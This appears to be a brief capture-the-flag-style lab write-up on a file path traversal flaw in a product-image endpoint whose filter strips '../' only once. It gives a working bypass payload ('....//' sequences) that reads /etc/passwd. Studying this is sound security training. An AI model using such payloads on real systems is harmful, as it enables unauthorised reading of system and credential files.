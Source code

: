 # Lab: File path traversal, traversal sequences stripped non-recursively

This lab contains a path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

**Analysis:** Exploit path traversal vulnerability in the display of product images. The app has some filtering but is vulnerable to certain types of masked path traversal attacks, in this case:

`....//`

`/image?filename=64.jpg`

`/var/www/images`

**Payload:**

```python
/image?filename=....//....//....//etc/passwd 
```


